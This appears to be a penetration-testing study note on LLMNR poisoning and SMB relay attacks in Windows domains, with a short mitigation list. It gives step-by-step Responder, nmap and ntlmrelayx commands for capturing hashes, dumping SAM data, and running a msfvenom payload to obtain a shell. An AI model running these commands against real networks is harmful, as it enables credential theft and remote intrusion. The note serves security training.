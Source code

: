 2. Now we run responder and wait for the file to be opened

> responder -I eth0 -rdw


## SMB Relay attack

In this attack we  utilize llmnr poisoning and then use the captured hashes to dump sensitive critical information on other machines in the network.We utilize responder and ntlmrelay tool. Requirement for this is that smb signing must be disabled on target and the hash of the user which we captured,must be admin on the target machine.


1. We need to narrow down all the targets which have smb signing disabled or enabled but are not required for logging in.

> nmap --script=smb2-security-mode.nse -p445

2. Edit the /etc/responder/Responder.conf file to disable smb and http flags to off

3. run responder

> responder -I interface -rdw

4. now run ntlmrelay 

> ntlmrelayx.py -tf targetlist.txt -smb2support

5. Now any user must cause the llmnr attack and our smb relay attack will work  

6. We will receive SAM hashes and hives etc. 



                   OR
                   
when running ntlm relay we can specify -i flag to get a interactive session.Then we nc into that specific local port and get bunch of feauturs.

> ntlmrelayx.py -tf targetlist.txt -smb2support -i

We can also specify -e to execute an executable when succesful.We can create a msfvenom exe payload and and specify that and get a meterpreter shell or any common shell

> ntlmrelayx.py -tf targetlist.txt -smb2support -e shell.exe    



Mitigation:

- enable smb signing on every device across the network
- Disable ntlm authentication on the network(kerberos more secure)
- Limit local administrators across the network(a admin of single workstation is also admin  of many other workstations which allows this attack)
      

## Gain authenticated access in domain

We can use smbexec,wmiexec,psexec using the gained credentials for a semi interactive shell.Then we can find a way to gain a interactive shell or pipe a C2 Framework like empire for persistence or post exploitation.psexec is noisy and should be as a last resort

